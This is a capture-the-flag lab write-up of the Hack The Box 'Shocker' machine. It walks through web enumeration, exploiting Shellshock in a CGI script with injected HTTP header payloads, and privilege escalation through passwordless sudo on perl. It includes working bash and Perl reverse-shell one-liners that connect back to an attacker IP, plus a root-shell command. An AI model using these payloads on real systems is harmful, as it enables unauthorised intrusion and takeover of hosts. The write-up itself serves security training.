

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/shocker-easy
---

# ✅ Shocker (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Misconfigured restricted access and vulnerable to Shellshock

**System Vulnerable:** 10.10.10.56

**Vulnerability Explanation:** The machine is misconfigured restricted access to file and it is vulnerable to shellshock which could allow us to gain initial foothold on the machine.&#x20;

**Privilege Escalation Vulnerability:** Misconfigure on perl script that allow normal user to run with NOPASSWD require.

**Vulnerability Fix:** Upgrade or apply patched to the system and restrict access to all files and directory for unauthorized user.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.56 -Pn   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 12:11 EDT
Nmap scan report for 10.10.10.56
Host is up (0.043s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

**Port 80 Apache/2.4.18 (ubuntu)**

By browsing the webpage, we just found an image. Viewing source code also nothing is interest.

.png>)

By finding hidden directory with gobuster as normal, we found only /server-status. It's suppose to have other file or directory existing.&#x20;

```
└─$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/01 11:17:11 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 299]
                                               
===============================================================
2021/11/01 11:20:25 Finished
===============================================================
```

Let try discover hidden directory with other tool as **dirb**. With dirb, we found **/cgi-bin/** and **index.html.**

```
└─$ dirb http://10.10.10.56 -r                                                       

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                                                                                                                            
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                                                                                                                                          
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)    
```

Let further enumerating on the web browser. By browsing **/cgi-bin/** and **/cgi-bin** to see the different.&#x20;

As we can see **/cgi-bin/** it returns status code **403 (Forbidden)** whereas **/cgi-bin** it returns **404 (Not Found).** It seems like if we didn't add / at the end, it doesn't work.

.png>)

.png>)

Let try discover hidden directory again with gobuster with the options **-f** to add / at the end. As we are now can see the directory /cgi-bin/.

```
└─$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -f
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/11/01 11:20:47 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
/server-status/       (Status: 403) [Size: 300]
                                               
===============================================================
2021/11/01 11:24:04 Finished
===============================================================
```

Let discover more on /cgi-bin/ if there is any file or directory we could access.&#x20;

[CGI (Common Gateway Interface)](https://httpd.apache.org/docs/2.4/howto/cgi.html) defines a way for a web server to interact with external content-generating programs, which are often referred to as CGI programs or CGI scripts. The script extension use **pl (perl) and cgi.** For this box is Ubuntu let check extension **sh (shell)**.

```
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -f -x sh,pl
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              pl,sh
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/11/01 11:36:14 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
                                               
===============================================================
2021/11/01 11:45:55 Finished
===============================================================
```

We found file **/user.sh**. Viewing the content of the file, it seems like it is the result of execute bash script `uptime`.

.png>)

```
Content-Type: text/plain

Just an uptime test script

 12:19:42 up  1:24,  0 users,  load average: 0.00, 0.00, 0.00
```

```
└─$ uptime
 12:17:42 up  1:33,  1 user,  load average: 0.74, 0.75, 0.80
```

To view the content easily, we can intercept traffic through burp,&#x20;

.png>)

Notice on server response, the **Content-Type** header is `text/x-sh` and the below script is trying to add **Content-Type** header `text/plain` but it's after the empty line, so it's in the body.

Let start checking, if this application is vulnerable to [shellshock](https://www.breachlock.com/shellshock-bash-remote-code-execution-vulnerability-explained/) or not. Using nmap script to verify.

```
└─$ nmap -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 12:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.044s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

```

Seem like this application is vulnerable to shellshock.

[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)

## Shellshock Exploitation

Viewing nmap script, we found that it's going to inject command to verify.

```
if not cmd then
    local rnd1 = rand.random_alpha(7)
    local rnd2 = rand.random_alpha(7)
    rnd = rnd1 .. rnd2
    cmd = ("echo; echo -n %s; echo %s"):format(rnd1, rnd2)
  end
  cmd = "() { :;}; " .. cmd
  -- Plant the payload in the HTTP headers
  local options = {header={}}
  options["no_cache"] = true
  if custom_header == nil then
    stdnse.debug1("Sending '%s' in HTTP headers:User-Agent,Cookie and Referer", cmd)
    options["header"]["User-Agent"] = cmd
    options["header"]["Referer"] = cmd
    options["header"]["Cookie"] = cmd
  else
    stdnse.debug1("Sending '%s' in HTTP header '%s'", cmd, custom_header)
    options["header"][custom_header] = cmd
  end
```

Let start manual testing and inject command into User-Agent. We can see, it seem likes include 1 more space on the body.

```
Accept: () { :;}; echo
```

.png>)

By adding ls to list current directory but it doesn't display anything.

```
Accept: () { :;}; echo; ls
```

.png>)

But if we include the complete path, it's going to execute and display the current directory.

```
Accept: () { :;}; echo; /bin/ls
```

Let start inject bash reverse shell command on User-Agent and start netcat listener on 4444.

```
nc -lvp 4444
```

```
Accept: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1
```

.png>)

.png>)

## Privilege Escalation

First the first, run **`sudo -l`** whether there is any misconfiguration. We can run perl with root permission and without require password.

.png>)

### /usr/bin/perl

The best place for me to check for privilege escalation is [https://gtfobins.github.io/](https://gtfobins.github.io/).&#x20;

.png>)

```
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

.png>)

```
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("bash")'
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
shelly@Shocker:/usr/lib/cgi-bin$
```

Other method we can run netcat listener on our machine and execute perl reverse shell command.

```
perl -e 'use Socket;$i="10.10.14.31";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

.png>)

.png>)
